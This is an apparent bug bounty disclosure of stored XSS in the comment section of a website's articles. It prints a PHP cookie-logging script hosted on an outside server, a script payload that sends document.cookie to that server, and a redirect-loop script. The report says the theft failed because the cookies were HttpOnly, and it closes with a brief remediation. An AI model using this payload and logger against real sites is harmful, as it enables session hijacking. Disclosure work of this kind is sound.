

1 Description :
I found a vulnerability in the comment part of articles on bountystarter website. This vulnerability is XSS stored.
2 Exploitation :
I have read the source code of the web application and I see in the comment part user comments are inside
tag. For example :
<p>
My wonderful comment
</p>
But if I close this tag and inject Javascript instructions can I steal cookies ?
3 PoC :
3.1 Prepare :
I have created a PHP script on my web server guillaume-petit.fr. The script cookies.php save all cookie get parameters in cookies.txt file :
<?php
$fp = fopen('cookies.txt', 'w'); // open cookies.txt file
fwrite($fp, $_GET["cookie"]); // write cookie get parameter in cookies.txt
fclose($fp); // close cookies.txt file
?>
3.2 Exploit :
In comment part in the article of the website : https://bountystarter.com
After, I inject in part comment my JavaScript instructions :
</p>
<script>
window.open("http://guillaume-petit.fr/cookies.php?cookie="+document.cookie)
</script>
I reload the page and test if my cookie is saved into my server. No, none cookie saves inside cookies.txt file, because cookies are created on the computer with http only flag. So anyone can steal cookies with this tip.
4 Conclusion :
To conclude I have found a bug XSS injection stored, but I can't exploit this one because cookies are created with http only flag.
5 Bonus the hell loop :
Ok my injection doesn't work but, I can create a hell loop inside the application.
To creating this loop I need to modify the php script in my web server :
<?php
header("Location: https://7e44cf96dade47a5c02259f1876a1c64.bountystarter.com/articles/view/Win%20tickets%20for%20Esport%20main%20event", true, 301);
?>
Representation of attack : 
6 Risk :
No risk as long as cookies are set with the http only flag.
7 Remediation :
Use strip_tags() fonction for filter user input and escape html tags.